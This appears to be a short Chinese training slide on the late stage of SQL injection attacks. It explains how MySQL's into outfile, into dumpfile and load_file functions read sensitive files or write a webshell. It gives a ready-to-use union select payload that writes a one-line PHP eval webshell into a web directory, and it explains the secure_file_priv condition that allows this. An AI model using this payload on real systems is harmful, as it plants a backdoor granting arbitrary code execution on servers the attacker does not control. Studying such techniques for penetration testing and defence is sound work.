

# 写马
在利用sql注入漏洞后期，最常用的就是通过mysql的file系列函数来进行读取敏感文件或者写入webshell，其中比较常用的函数有以下三个

into dumpfile()

into outfile()

load_file()
union select 1,'<?php eval($_REQUEST[8])?>' into outfile 'c:/phpstudy/www/1.php'

这些都是需要设置secure_file_priv=，如果他为空则可以指定任意目录，如果有设置等于某个路径就只能在这个指定路径下，而他为null时则禁止导入导出功能